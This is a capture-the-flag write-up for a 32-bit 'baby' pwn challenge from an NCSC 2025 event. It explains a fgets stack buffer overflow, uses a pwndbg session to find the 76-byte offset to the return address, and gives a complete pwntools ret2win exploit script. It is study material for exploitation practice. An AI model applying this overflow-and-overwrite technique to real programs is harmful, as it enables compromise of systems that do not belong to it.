 ```yaml
---
layout: post
date: 2025-07-25 12:23:00 +0300
categories: NCSC-2025 pwn
title: baby
tags: i386 ret2win buffer-overflow 
---
```


## Information 
- category: pwn
- points: 1000

## Description
> None

## Write-up

When running the challenge binary:
```bash
λ ~/Desktop/CTF@NCSC/pwn/pwn1/ ./baby
Welcome to babypwn challenge!
Enter your input:
AAAA
You said: AAAA
```

<img src="/images/baby/baby1.png" style="border-radius: 14px;">
From your screenshot: 
- `fgets(buffer, 200, stdin);` 
- But the actual `buffer` (`local_48`) is **only 0x44 = 68 bytes**. 
- That means `fgets()` is allowed to **write up to 200 bytes**, but only 68 are safely allocated — this is a **classic overflow**.

### Exploitation Path 
**You now control the stack after 68 bytes**, which includes: 
- **Saved RBP**: Usually right after local vars (at `offset + 0x48`).
- **Return address**: Comes after RBP (typically at `offset + 0x50` or so). 

So the **ret address is definitely overwritable**

### Finding the Return Address Offset Using GDB + Pwndbg:
```plaintext
[stack]         0xffffd160 'AAAA\n'
pwndbg> i f
Stack level 0, frame at 0xffffd1b0:
 eip = 0x804931d in vuln; saved eip = 0x8049387
 called by frame at 0xffffd1d0
...
 Saved registers:
  ebx at 0xffffd1a4, ebp at 0xffffd1a8, eip at 0xffffd1ac
pwndbg> dist 0xffffd160 0xffffd1ac
0xffffd160->0xffffd1ac is 0x4c bytes (76 bytes)
```
> Offset to return address = 76 bytes
{: .prompt-info}

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./baby")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("")

    return r


def main():
    r = conn()


    win_addr = 0x8049233

    payload = b'A' * 72
    payload += b'B' * 4
    payload += p32(win_addr)

    r.send(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag
> Flag:``` ```








